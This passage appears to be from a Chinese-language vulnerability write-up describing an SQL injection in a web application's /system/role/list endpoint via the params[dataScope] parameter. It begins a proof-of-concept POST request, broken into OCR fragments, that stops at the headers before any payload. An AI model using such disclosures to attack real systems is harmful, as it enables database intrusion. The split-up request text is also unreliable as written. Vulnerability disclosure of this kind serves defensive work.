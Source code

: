 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVLy1ItE0DqHNNtibUVK3GB7REGn3OdgrvbNlEW2bG9RcUKC6ibuxmo8icd2j6Z1foqbYG4A0CO2g3AA/640?wx_fmt=png "")  
  
   
  
     
### 漏洞二：SQL注入漏洞  
### 都是POST请求方式  
  
注入点一：：  
在/system/role/list接口的params[dataScope]参数  
  
POC如下：  
  
POST  
 /system/role  
/list  
 HTTP/  
1  
.  
1  
            
  
Host  
:   
            
  
Content  
-Length:   
179  
            
  
sec  
-ch-ua:   
"Chromium"  
;v=  
"109"  
,   
"Not_A Brand"  
;v=  
"99"  
            
  
Accept  
: application/json, text/javascript, */*; q=  
0  
.  
01  
            
  
Content  
-Type: application/x-www-form-urlencoded  
            
  
X  
-Requested-With: XMLHttpRequest  
            
  
sec  
-ch-ua-mobile: ?  
0  
            